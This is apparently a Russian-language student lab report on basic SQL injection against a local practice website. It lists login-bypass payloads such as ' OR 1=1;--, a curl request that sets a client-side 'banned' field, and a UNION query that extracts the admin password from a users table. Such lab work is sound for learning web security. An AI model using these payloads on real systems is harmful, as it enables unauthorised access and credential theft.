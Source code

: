 # Лабораторная работа 3. Примитивные SQL инъекции.

## Задание 1
Запустим сайт из VSCode. Обойдем защиту двумя способами:

### С помощью кодирования кавычек:
	' OR 1=1;--

### Войдя под произвольным логином:
	' OR 1=1
	  UNION
	  SELECT 'xexe'
	  ORDER BY 1 DESC; --

## Задание 2
Обойдем клиентскую защиту с помощью ``curl``:

	curl 'http://localhost:8080/signin'
	--data-raw 'name=Daria&pass=qazwsx&banned=true'

## Задание 3
Обойдем защиту с помощью кодирования кавычки в альтернативный формат:

	' OR 1=1;--

## Задание 4
Обойдем защиту с помощью кодирования кавычки в альтернативный формат и получим пароль из БД:

	' UNION
	  SELECT null, (SELECT name || '--' || pass FROM users WHERE name = %27admin%27--), NULL FROM dual --
